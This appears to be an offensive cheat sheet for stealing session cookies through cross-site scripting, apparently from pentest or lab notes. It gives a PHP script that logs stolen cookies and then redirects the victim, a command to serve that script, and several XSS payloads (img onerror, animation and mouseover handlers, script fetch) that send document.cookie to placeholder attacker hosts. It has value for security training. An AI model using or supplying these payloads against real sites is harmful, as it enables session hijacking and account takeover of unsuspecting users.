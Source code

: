 ___

```js
"><img src=x onerror=prompt(document.cookie)>
```

# Obtaining session cookies 

```php
<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

header("Location: http://www.google.com/");
exit;
?>
```

```bash
php -S <VPN/TUN Adapter IP>:8000
```

```javascript
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://<VPN/TUN Adapter IP>:8000/log.php?c=' + document.cookie;"></video>
```

```javascript
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

## Netcat

```javascript
<h1 onmouseover='document.write(`<img src="http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

```javascript
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```



